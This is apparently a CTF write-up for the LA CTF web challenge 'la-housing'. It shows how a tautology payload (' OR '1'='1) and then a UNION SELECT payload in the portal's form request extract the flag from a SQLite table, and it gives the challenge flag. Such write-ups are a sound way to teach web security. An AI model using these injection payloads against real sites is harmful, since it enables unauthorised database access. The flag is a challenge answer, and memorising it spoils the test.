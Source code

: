 # la-housing

## Overview:

Category: Web

## Description

Portal Tips Double Dashes ("--") Please do not use double dashes in any text boxes you complete or emails you send through the portal. The portal will generate an error when it encounters an attempt to insert double dashes into the database that stores information from the portal.

Also, apologies for the very basic styling. Our unpaid LA Housing(tm) RA who we voluntold to do the website that we gave FREE HOUSING for decided to quit - we've charged them a fee for leaving, but we are stuck with this website. Sorry about that.

Please note, we do not condone any actual attacking of websites without permission, even if they explicitly state on their website that their systems are vulnerable.

la-housing.chall.lac.tf

## Approach

Opening up the website we see:

![Main Page](pictures/mainpage.png)

Possible sql injection?

Let's see if we can get it.

## Attack

After messing around with the request you get when clicking `Get Matches!`, we come to a sql injection success:

![SQL Injection](pictures/sqlinjection.png)

Here we can see `name=name&guests=No&neatness=Put+things+away+as+we+use+them&sleep=8-10pm&awake=4-6am' OR '1'='1` working for our query, where we can inject some of our own queries here `OR '1'='1`


Now based on the files given to us, we know that the flag is in its own database.

in `data.sql`:
```c
CREATE TABLE flag (
flag text
);
INSERT INTO flag VALUES("lactf{fake_flag}");
DELETE FROM sqlite_sequence;
INSERT INTO sqlite_sequence VALUES('users',750);
COMMIT;
```

So lets try and use union to grab our flag from the flag database.

After a few tries with different queries, this one `name=name&guests=No&neatness=Put+things+away+as+we+use+them&sleep=8-10pm&awake=4-6am' UNION SELECT 1, *, 3, 4, 5, 6 from 'flag` ended up returning the flag:

![Flag](pictures/flag.png)

Therefore extracting our flag from the sql database!

## Flag

lactf{us3_s4n1t1z3d_1npu7!!!}
